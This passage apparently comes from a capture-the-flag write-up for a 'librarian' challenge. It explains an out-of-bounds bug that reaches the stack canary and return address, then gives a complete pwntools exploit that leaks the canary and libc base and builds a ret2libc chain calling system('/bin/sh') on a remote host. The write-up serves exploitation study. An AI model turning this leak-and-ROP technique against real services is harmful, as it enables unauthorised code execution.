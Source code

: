 In this case, the oob memory area is justs where the canary,rbp and ret lies.  
Thus, this allows us to use sort() to not only  
1. Leak libc and canary
2. Overwrite ret with own memory


What I did was:
1. Fill up the library with books and display books to leak addresses
2. Clear the books
3. Fill up the library again, but this time, I make the second last book be larger than the last book, and setup the ret2libc and canary in the second last book

exploit.py:
```python
from pwn import *
#io = process("./librarian")
io = remote("43.201.16.196",8888)
libc = ELF("./libc.so.6")

def displayBooks():
    io.sendlineafter("choice:","1")
    return io.recvuntil("Menu")

def addBook(title):
    io.sendlineafter("choice:","2")
    io.sendlineafter("Book title:",title)

def addComment(comment):
    io.sendlineafter("choice:","3")
    pass

def clearBooks():
    io.sendlineafter("choice:","4")

def leave():
    io.sendlineafter("choice:","5")


addBook("A"*0x3f)
addBook("B"*0x3f)
addBook("C"*0x3f)
addBook("D"*0x3f)
addBook("E"*0x3f)

leak = displayBooks()
startIndex = leak.index(b"5. ") + 11
canary = u64(leak[startIndex:startIndex+8])
libc.address = u64(leak[startIndex+16:startIndex+22].ljust(8,b"\x00")) - 144656

log.info("CANARY: " + hex(canary))
log.info("LIBC BASE: " + hex(libc.address))

clearBooks()
for i in range(13):
    addBook("A"*0x3f)

popRdi = p64(libc.address + 0x23b65)
ret = p64(libc.address + 0x233d1)

ret2libc  = b"\xff" * 8 + p64(canary) + b"A"*8
ret2libc += ret + popRdi + p64(next(libc.search(b"/bin/sh"))) + p64(libc.symbols["system"])
addBook(ret2libc)

addBook("A"*0x3f)

```